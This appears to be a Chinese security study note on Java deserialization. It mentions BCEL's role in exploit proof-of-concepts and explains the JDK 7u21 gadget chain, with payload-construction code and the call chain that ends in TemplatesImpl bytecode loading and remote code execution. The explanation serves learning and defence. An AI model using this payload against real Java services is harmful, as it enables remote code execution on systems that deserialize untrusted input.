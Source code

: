 BCEL的全名应该是Apache Commons BCEL，属于Apache Commons项目下的一个子项目

该类常常用于各种漏洞利用POC的构造，可以加载特殊的字符串所表示的字节码

但是在Java 8u251之后该类从JDK中移除



### 谈谈7U21反序列化（★★★★★）

从`LinkedHashSet.readObject`开始，找到父类`HashSet.readObject`方法，其中包含`HashMap`的类型转换以及`HashMap.put`方法，跟入`HashMap.put`其中对`key`与已有`key`进行`equals`判断，这个`equals`方法是触发后续利用链的关键。但`equals`方法的前置条件必须满足

```java
if (e.hash == hash && ((k = e.key) == key || key.equals(k)))
```

所以这里需要用哈希碰撞，让下一个`key`的哈希值和前一个相等，才可进入第二个条件。而第二个条件中必须让前一个条件失败才可以进去`equals`方法，两个`key`对象不相同是显而易见的

接下来的任务是找到一处能触发`equals`方法的地方

反射创建`AnnotationInvocationHandler`对象，传入`Templates`类型和`HashMap`参数。再反射创建被该对象代理的新对象，根据动态代理技术，代理对象方法调用需要经过`InvocationHandler.invoke`方法，在`AnnotationInvocationHandler`这个`InvocationHandler`的`invoke`方法实现中如果遇到`equals`方法，会进入`equalsImpl`方法，其中遍历了`equals`方法传入的参数`TemplatesImpl`的所有方法并反射调用，通过`getOutputProperties`方法最终加载字节码导致RCE

关于7U21的伪代码如下

```java
Object templates = Gadgets.createTemplatesImpl();
String zeroHashCodeStr = "f5a5a608";
HashMap map = new HashMap();
Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
ctor.setAccessible(true);
InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);
Templates proxy = (Templates) Proxy.newProxyInstance(exp.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);
LinkedHashSet set = new LinkedHashSet();
set.add(templates);
set.add(proxy);
map.put(zeroHashCodeStr, templates);
return set;
```

结合调用链

```text
LinkedHashSet.readObject()
  LinkedHashSet.add()/HashMap.put()
      Proxy(Templates).equals()
        AnnotationInvocationHandler.invoke()
          AnnotationInvocationHandler.equalsImpl()
            Method.invoke()
              ...
                TemplatesImpl.getOutputProperties()
```
